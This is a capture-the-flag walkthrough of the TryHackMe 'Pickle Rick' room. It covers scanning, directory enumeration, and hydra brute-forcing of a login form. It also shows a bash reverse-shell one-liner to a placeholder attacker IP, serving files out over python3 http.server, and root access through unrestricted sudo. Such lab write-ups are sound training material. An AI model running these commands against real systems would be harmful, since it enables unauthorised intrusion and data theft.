 # Pickle Rick

<b>Available at:</b> [TryHackMe](https://tryhackme.com/room/picklerick)

IP: 10.10.0.135

### Initial scan

`nmap -sC -sV -oN nmap.txt -vv -p- 10.10.0.135`

`-sC` -> default scripts

`-sV` -> tell us the versions of running services

`-oN nmap.txt` -> write the ouput into a file called 'nmap.txt'

`-vv` -> set verbosity to level 2

`-p-` -> scan all ports

### Open Ports

80 meaning an http server and 22 which is ssh

```
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 7.2p2 Ubuntu 4ubuntu2.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 d2:12:ce:df:f7:9a:2b:9e:97:7d:c1:39:e4:3c:df:48 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQC4foPbmOjfcIrXu3IJCBFcHjm0rHko8N1WsXQLum5p740xUrBgcL8tfW1HY9hkyuK+jcUX5YLSUVFvNDnMFYwD4trWdieY+XvKFQg+OApJBE3THPkiXhkU8FfiubEsQ8UD7gEEHZsxjKL8PMrsCQIxpY+r7ClLFT3KPry82IaZC4Iecq6SZLXJUCi84ZzMBV0+zrV3QH+5U3ywVmBGu9fJiEbBoHaOm51/vhNx7451U6Socojjr2md3kr1VnPYmHiECg/D7P9NG9p+UD4ZmGdjkPSxYOLVb9qW7VKh/QPro/8TKz3Xgsz2cM0VwOIwKy2LvfbkPvXjW002pPcTLGGp
|   256 1e:83:24:55:dc:41:c3:14:08:0d:f8:2b:ab:40:bf:0e (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBFHxx3PVd2BRCPBf2gOQtxGB8qjtct/augcA5gsxgoM9wm+rufC0o5/8TWrcZIwxYOhuVwGzGqhOTDo2Rso3oZk=
|   256 ff:20:ec:03:c6:82:02:7b:1f:5a:cd:fb:65:5c:ee:e7 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIMVagIW9FgwDEjyxoefbfWBpRdA3e2hkmGs/1PAplz0M
80/tcp open  http    syn-ack ttl 63 Apache httpd 2.4.18 ((Ubuntu))
| http-methods: 
|_  Supported Methods: OPTIONS GET HEAD POST
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Rick is sup4r cool
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

### Web enumeration

Using my tool [webctf](https://github.com/xnomas/web-ctf-help), we can see that the page has a username in the comments!

```
webctf http://10.10.0.135/ --comments

=============
COMMENTS
=============

[+] 1 :  

    Note to self, remember username!

    Username: R1ckRul3s

```
We have a username, time to start gobuster!

`gobuster dir -u http://10.10.0.135/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 25`

running gobuster like this didnt get me much, so I ran dirbuster. Looked for extensions `.php .js .txt .py`

#### Dirbuster results

Only the interesting stuff

```
/login.php
/portal.php
/robots.txt
```
`portal.php` redirects to `login.php`.... just like a portal!

We get a login page, so time for some burp.

When sending a login request, the following parameters are sent to the server

`username=R1ckRul3s&password=p1ckl3&sub=Login`

This screams hydra to me.

`hydra -l R1ckRul3s -P /usr/share/wordlists/rockyou.txt http://10.10.0.135 http-post-form/login.php:username=^USER^&password=^PASS^&sub=Login:Invalid username or password." -V -f -t 15`

Since this wasn't returning anything for quite sometime I looked at robots.txt 
Could this be a password? (Hint: Yes)

## What is the first ingredient Rick needs?

We have entered into `/portal.php` what could we do here? 

The welcome page has a command panel, lets try and use it!

Before that, I quickly checked out the source code, found an interesting comment
```
Vm1wR1UxTnRWa2RUV0d4VFlrZFNjRlV3V2t0alJsWnlWbXQwVkUxV1duaFZNakExVkcxS1NHVkliRmhoTVhCb1ZsWmFWMVpWTVVWaGVqQT0==
```
This turned out to be a dead end. So i typed `ls` into the command prompt and viola

```
Sup3rS3cretPickl3Ingred.txt
assets
clue.txt
denied.php
index.html
login.php
portal.php
robots.txt
```
at /Sup3rS3cretPickl3Ingred.txt we have the first ingredient, and there is also a clue.txt!

## Whats the second ingredient Rick needs?

clue: `Look around the file system for the other ingredient.` So let's do that. By trying `cd ..; pwd` I found out that we can move around. Could we maybe get a reverse shell??

`/bin/bash -i >& /dev/tcp/YOUR_THM_VPN_IP/8888 0>&1` and ran `nc -lvnp 8888` in another tab. But no luck.

After playing around a bit, I found `/home/rick/second ingredient` but the `cat` command is disabled! 
What else could we do? Well, how about a python http server. 

`which python3` shows that python3 is installed, so lets try it.


<b>WARNING dont do this! I had to restart my room instance</b>

I tried being creative, wasnt worth it :D Just use the `less` command on the file.

`cd /home/rick; python3 -m http.server --bind 10.10.0.135 8888` the site hangs, so it is running! Visit it on the correct port, and viola again. 

## Whats the final ingredient Rick needs?

Now, how can we escelate to the root user and find our last ingredient?

running `sudo -l` to see what we can do as sudo.... well

```
User www-data may run the following commands on ip-10-10-238-28.eu-west-1.compute.internal:
    (ALL) NOPASSWD: ALL
```

We can do anything. So lets try `sudo -la /root/`

Output:

```
.
..
.bashrc
.profile
.ssh
3rd.txt
snap
```
Now just `sudo less` the file, and there we go!
